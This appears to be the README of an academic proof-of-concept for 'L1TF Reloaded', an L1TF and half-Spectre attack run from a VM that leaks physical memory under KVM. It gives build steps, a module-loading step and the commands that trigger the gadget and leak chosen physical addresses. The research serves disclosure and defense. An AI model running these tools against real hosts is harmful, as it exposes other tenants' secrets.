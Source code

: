 # L1TF Reloaded

## Prerequisites

To run this in an attacker VM, make sure you have the following things setup:

- `CMake`, at least version 3.10.
- `make`
- `gcc`, we used version `gcc (GCC) 14.2.1 20240910`
- Headers for your Linux kernel, compiled with the patch from Figure 6 of the paper.

## Building

To build everything, just run

```sh
make
```

You can also build each target separately, with commands such as

```sh
make kvm_leak
make victim
make hypercall
make kvm_assist
make pteditor.ko
```

To remove all the build artifacts, run

```sh
make clean
```

## Running

Load the required kernel modules with

```sh
make load_modules
```

Then, run the following two commands in separate shells.

To trigger the half-Spectre gadget:

```sh
./build/kvm_leak access_min [index into the phys_map] [amount of bytes you want to leak]
```

To leak the loaded data with L1TF:

```sh
./build/kvm_leak l1tf leak -a [physical address you want to leak] -l [amount of bytes you want to leak]
```

## Licence

This is free software licensed under the European Union Public Licence v.1.2. See [LICENSE](./LICENSE) for more details.
